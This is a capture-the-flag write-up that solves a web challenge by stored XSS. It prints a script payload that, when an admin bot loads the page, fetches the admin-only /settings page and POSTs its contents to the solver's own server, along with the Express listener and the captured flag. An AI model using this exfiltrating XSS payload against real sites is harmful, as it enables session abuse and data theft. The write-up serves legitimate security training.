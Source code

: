 #### Challenge:

Hi, packet inspector,

do you want to order something? Use our Orderly information system, it is intuitive, fast, reliable and secure! At least that's what we claim in the TV ad. In last few hours it began to act weirdly, but its administrator is on vacation away from civilization (and connectivity).

You will have to break into the [Orderly information system](http://orderly.mysterious-delivery.tcc:23000) and check its configuration.

May the Packet be with you!

---

#### Solution:

- after playing with the `system`, we find out, that the site is `XSS` vulnerable and on top of that, the bot that reviews our custom payload has active admin session. All that we need to do, is to prepare payload that will upon loading fetch the `admin` only page with `flag` and then forward that content to our own server, that can be reachable on our `VPN` client IP (the hardest thing here is crawling/guessing the `/settings` page)

- local `HTTP` server used for forwarding
```js
var express = require('express')
var bp = require('body-parser')
var cors = require('cors')
var app = express()

app.use(cors())
app.use(bp.json())
app.use(bp.urlencoded({ extended: true }))

app.post('*', function (req, res, next) {
    console.log(req.body, req.ip);
    res.json({ msg: 'This is CORS-enabled for all origins!' })
})

app.listen(8000, function () {
    console.log('CORS-enabled web server listening on port 80')
})
```

```html
<script>
    document.addEventListener('DOMContentLoaded', function () {
        let xmlHttp = new XMLHttpRequest();
        xmlHttp.open("GET", "/settings", false);
        xmlHttp.send(null)

        fetch(
            "http://10.200.0.53:8000/",
            {
                "body": JSON.stringify({ "data": window.location, "text": xmlHttp.responseText, "status": xmlHttp.status }),
                "method": "POST",
                headers: { 'Content-Type': 'application/json' }
            }
        )
    })
</script>
```

---

<details><summary>FLAG:</summary>

```
FLAG{9QVE-0miw-qnwm-ER9m}
```

</details>
<br/>
